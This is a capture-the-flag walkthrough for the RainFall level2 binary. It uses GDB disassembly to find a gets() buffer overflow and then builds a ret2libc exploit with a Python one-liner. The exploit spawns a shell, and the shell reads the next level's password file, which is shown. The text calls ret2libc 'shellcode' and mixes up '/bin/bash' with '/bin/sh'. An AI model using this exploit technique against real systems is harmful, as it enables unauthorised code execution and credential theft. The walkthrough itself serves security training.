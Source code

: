 # Level2

## Exploring the binary
```shell
level2@RainFall:~$ ./level2
phantom
phantom
level2@RainFall:~$ ./level2
FFFF FFF
FFFF FFF
```
The <code>level2</code> binary waits for standard input and then prints it out.

## GDB analysis
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:		push   %ebp
   0x08048540 <+1>:		mov    %esp,%ebp
   0x08048542 <+3>:		and    $0xfffffff0,%esp
   0x08048545 <+6>:		call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```
The main function calls <code>p()</code> upon execution. This makes us wonder if there are other functions that haven't been called.
```shell
(gdb) i function
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```
As we've seen again before, the function <code>p()</code> utilizes the unsafe <code>gets()</code> function, which is vulnerable to buffer overflow attacks.
```shell
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:		push   %ebp
   0x080484d5 <+1>:		mov    %esp,%ebp
   0x080484d7 <+3>:		sub    $0x68,%esp
   0x080484da <+6>:		mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```
This time, there is no direct <code>system()</code> call, so we may need to find our own way to access it. This situation is commonly referred to as a <code>return to libc</code> attack, where the overflow overwrites the return address with the memory address of the injected shellcode. Upon returning from the function, instead of jumping to the legitimate address, it redirects execution flow to the shellcode.


## ret2libc
There are 3 prerequisites for planning this type of attack:
- <code>system()</code> - which allows executing shell commands
- <code>exit()</code> - used to terminate the program after executing the shell command
- <code>/bin/bash</code> - which is passed as an argument to <code>system()</code> to spawn a shell

``` shell
overflow --> return from p() ? --EXPLOIT--> system() --> exit() --> /bin/bash
```

It might seem weird that the <code>/bin/bash</code> comes after <code>exit()</code>. When a program is compiled and linked, functions like <code>system()</code> and <code>exit()</code> from the libc are typically located before any static data such as strings. Therefore, the address of the <code>exit()</code> function usually comes before the address of the <code>/bin/bash</code> string in memory.

The offset is found in the same manner as before, with a value of 80. We determine the addresses of the functions and commands using <code>GDB</code>:
``` shell
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find 0xb7e6b060, +999999999, "/bin/sh"
0xb7f8cc58
```

## Exploit
The exploit is constructed using the addresses and overflow in the following order:
1. Offset of 80 bytes.
2. Return address from function <code>p()</code> (0x0804853e).
3. <code>system()</code> address (0xb7e6b060).
4. <code>exit()</code> address (0xb7e5ebe0).
5. <code>/bin/bash</code> address (0xb7f8cc58).

``` shell
level2@RainFall:~$ python -c 'print "F" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]' > /tmp/flag2
level2@RainFall:~$ cat /tmp/flag2 - | ./level2
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF>FFFFFFFFFFFF>`�����X���
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
